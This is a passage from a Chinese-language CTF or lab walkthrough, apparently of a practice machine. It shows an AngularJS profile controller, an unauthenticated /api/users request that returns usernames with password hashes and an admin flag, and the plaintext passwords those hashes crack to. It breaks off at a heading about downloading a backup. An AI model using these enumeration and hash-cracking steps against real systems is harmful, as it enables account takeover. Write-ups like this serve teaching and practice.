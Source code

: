 ```
    }).
    otherwise({
      redirectTo: '/'
    });

    $locationProvider.html5Mode(true);
});
```

在http://172.20.10.7:3000/assets/js/app/controllers/profile.js中发现

```
var controllers = angular.module('controllers');

controllers.controller('ProfileCtrl', function ($scope, $http, $routeParams) {
  $http.get('/api/users/' + $routeParams.username)
    .then(function (res) {
      $scope.user = res.data;
    }, function (res) {
      $scope.hasError = true;

      if (res.status == 404) {
        $scope.errorMessage = 'This user does not exist';
      }
      else {
        $scope.errorMessage = 'An unexpected error occurred';
      }
    });
});
```



访问apiusers路由获得密码

```
[{"_id":"59a7365b98aa325cc03ee51c","username":"myP14ceAdm1nAcc0uNT","password":"dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af","is_admin":true},{"_id":"59a7368398aa325cc03ee51d","username":"tom","password":"f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240","is_admin":false},{"_id":"59a7368e98aa325cc03ee51e","username":"mark","password":"de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73","is_admin":false},{"_id":"59aa9781cced6f1d1490fce9","username":"rastating","password":"5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0","is_admin":false}]
```

cmd5破解网站获得密码，最主要第一个人还是admin

```
myP14ceAdm1nAcc0uNT-manchester
tom-spongebob
mark-snowflake
```

### 下载备份文件
